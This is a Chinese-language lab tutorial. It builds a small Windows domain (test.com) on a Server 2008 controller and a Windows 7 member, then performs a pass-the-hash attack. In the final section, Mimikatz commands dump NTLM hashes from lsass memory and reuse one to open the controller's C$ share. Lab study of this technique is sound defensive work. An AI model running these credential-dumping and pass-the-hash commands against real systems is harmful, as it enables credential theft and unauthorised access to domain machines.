搭建域及哈希传递攻击

搭建域：

配置虚拟机环境

两台虚拟机的网络模式均调整为仅主机模式



域控制器 Windows Server 2008

禁用IPv6



IP：192.168.21.10

子网掩码：255.255.255.0

DNS 首选：填写自身 IP 192.168.21.10



域成员 Windows 7

禁用IPv6



IP：192.168.21.11

子网掩码：255.255.255.0

DNS 首选：填写域控 IP 192.168.21.10



搭建域

分别给win7和win2008设置管理员用户和强密码：P@ssw0rd123





在Windows sever 2008中cmd输入搭建域的指令

dcpromo

选择：在新林中新建域



输入域名：test.com



林功能级别、域功能级别：选择 Windows Server 2008

勾选 DNS 服务器（必须，域依赖 DNS）

弹出 “无法创建 DNS 委派”，直接继续

数据库、日志、SYSVOL 路径默认即可，下一步

目录服务还原模式密码：P@ssw0rd123

确认配置 → 开始安装，安装完成重启服务器



重启后查看域创建情况：



将Windows7加入test.com

右键 计算机 → 属性 → 高级系统设置 → 计算机名 → 更改

选择 域，输入域名：test.com ，确定



弹出验证框：输入域控的域管理员账号密码

Administrator/P@ssw0rd123



重启后，查看现在的域信息



哈希传递攻击

Mimikatz 是由法国安全研究员 Benjamin Delpy（gentilkiwi）开发的 Windows 平台开源安全审计/后渗透工具， 俗称内网渗透"瑞士军刀"。其核心原理是利用SeDebugPrivilege 读取 Windows 认证进程 lsass.exe（Local Security Authority Subsystem Service） 内存中缓存的凭据，从而提取明文密码、NTLM/LM Hash、 Kerberos 票据等。

原理：Win7 内存中会缓存该账号的NTLM 哈希，mimikatz 可以直接抓取。

进行实验前，确保Win7账户的密码也是与域控制器的管理员账户密码相同

安装好mimikatz后，cmd（管理员权限）跳转到mimikatz的根目录

mimikatz.exe

privilege::debug  #提升权限(注:需以管理员权限运行)

sekurlsa::logonpasswords  #获取内存中保存的登录信息



通过指令抓取到win7账户的NTLM哈希值，根据抓取的哈希值修改payload

sekurlsa::pth /user:administrator /domain:test.com /ntlm:89551acff8895768e489bb3054af94fd

#弹出新窗口

dir \\192.168.21.10\c$



输入指令后自动弹出新窗口，成功查看到域控C盘文件，哈希传递攻击成功。
